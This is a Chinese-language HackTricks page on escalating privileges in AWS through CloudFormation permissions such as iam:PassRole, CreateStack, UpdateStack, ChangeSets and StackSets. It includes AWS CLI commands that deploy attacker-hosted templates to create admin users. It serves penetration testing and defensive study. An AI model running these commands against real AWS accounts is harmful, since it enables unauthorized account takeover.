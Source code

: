 # AWS - Cloudformation特权升级

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

* 如果您想在HackTricks中看到您的公司广告，或者如果您想访问PEASS的最新版本或下载PDF版本的HackTricks，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我的 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享您的黑客技巧。**

</details>

## cloudformation

有关cloudformation的更多信息，请查看：

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

拥有**`iam:PassRole`**和**`cloudformation:CreateStack`**权限的攻击者可以通过创建一个CloudFormation模板来**升级特权**，该模板将使用在创建CloudFormation堆栈时传递的角色的**权限执行操作并创建资源**。
```bash
aws cloudformation create-stack --stack-name my_stack \
--template-url http://my-website.com/my-malicious-template.template \
--role-arn arn_of_cloudformation_service_role
```
在攻击者的网站上，模板包含执行恶意操作的指令，例如创建一个管理员用户，然后使用这些凭据来提升他们自己的访问权限。

在下面的页面中，您可以找到一个具有额外权限`cloudformation:DescribeStacks`的**利用示例**：

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**潜在影响：**提升到指定的cloudformation服务角色。 

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

在这种情况下，您可以滥用现有的cloudformation堆栈来更新它并提升权限，就像前面的情景中一样：
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy`权限可用于在堆栈上**赋予自己`UpdateStack`权限**并执行攻击。

**潜在影响：**特权升级到指定的cloudformation服务角色。

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

如果您拥有此权限，但**没有`iam:PassRole`**，仍然可以**更新使用的堆栈**并滥用它们已经附加的**IAM角色**。查看前一节的漏洞示例（只是在更新中不指定任何角色）。

`cloudformation:SetStackPolicy`权限可用于在堆栈上**赋予自己`UpdateStack`权限**并执行攻击。

**潜在影响：**特权升级到已附加的cloudformation服务角色。

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

具有**传递角色和创建执行ChangeSet的权限**的攻击者可以像使用CreateStack或UpdateStack一样，**创建/更新新的cloudformation堆栈并滥用cloudformation服务角色**。

以下漏洞是使用**ChangeSet权限**创建堆栈的[**CreateStack的变体**](./#iam-passrole-cloudformation-createstack)。
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy`权限可用于在堆栈上**赋予自己`ChangeSet`权限**并执行攻击。

**潜在影响：**提升到cloudformation服务角色。

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

这种方法与之前的方法类似，不需要传递**IAM角色**，因此您可以**滥用已附加的角色**，只需修改参数：
```
--change-set-type UPDATE
```
**潜在影响：**特权升级至已附加的CloudFormation服务角色。

### `iam:PassRole`，(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

攻击者可以利用这些权限创建/更新StackSets，以滥用任意的CloudFormation角色。

**潜在影响：**特权升级至CloudFormation服务角色。

### `cloudformation:UpdateStackSet`

攻击者可以滥用此权限（无需passRole权限）来更新StackSets，以滥用已附加的CloudFormation角色。

**潜在影响：**特权升级至已附加的CloudFormation角色。

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

* 如果您想在HackTricks中看到您的公司广告，或者如果您想访问PEASS的最新版本或下载PDF版本的HackTricks，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我的**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享您的黑客技巧。**

</details>
